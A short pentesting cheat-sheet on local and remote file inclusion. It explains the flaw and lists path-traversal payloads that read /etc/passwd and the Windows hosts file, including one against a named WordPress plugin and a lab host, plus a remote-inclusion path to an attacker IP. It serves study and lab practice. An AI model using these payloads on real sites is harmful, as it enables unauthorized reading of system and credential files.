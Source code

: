 ### LFI --> Local file inclusion

---

LFI or Local File Inclusion occurs when an attacker is able to get a website to include a file that was not
intended to be an option for this application. A common example is when an application uses the path to a
file as input. If the application treats this input as trusted, and the required sanitary checks are not
performed on this input, then the attacker can exploit it by using the ../ string in the inputted file name
and eventually view sensitive files in the local file system. In some limited cases, an LFI can lead to code
execution as well.

```linux
WINDOWS\System32\drivers\etc\hosts
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts // If doesn't return in error, LFI is possible
```

```bash
<URL>/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd
```

```bash
../../../../../../etc/passwd
```


RFI or Remote File Inclusion is similar to LFI but in this case it is possible for an attacker to load a remote
file on the host using protocols like HTTP, FTP etc.

```linux
//10.10.14.6/somefile --> RFI
```

---

[LFI wordlists](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt)

